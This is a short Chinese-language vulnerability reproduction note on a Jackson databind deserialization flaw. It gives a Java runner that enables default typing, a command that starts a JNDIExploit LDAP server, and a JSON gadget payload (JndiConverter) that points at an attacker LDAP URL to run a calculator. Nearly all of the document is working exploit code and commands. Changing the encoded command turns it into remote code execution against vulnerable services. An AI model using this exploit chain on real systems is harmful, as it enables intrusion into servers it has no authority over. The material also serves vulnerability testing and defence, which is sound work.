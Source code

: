 PayloadRunner.java

```java
import com.fasterxml.jackson.core.JsonProcessingException;
import com.fasterxml.jackson.databind.ObjectMapper;


public class PayloadRunner {
    public static void main(String args[]) throws JsonProcessingException {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        String evilJson = "";
        mapper.readValue(evilJson, Object.class);
    }
}
```

##### 漏洞验证

LDAP服务端

```shell
java -jar .\JNDIExploit-1.4-SNAPSHOT-modified.jar -i 10.10.10.1
```

![image-20220124164807399](img/image-20220124164807399.png)

Payload-弹计算器

```java
// calc
[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://10.10.10.1:1389/62617369632F436F6D6D616E642F63616C63\"}]
```

测试效果

![image-20220124165036128](img/image-20220124165036128.png)
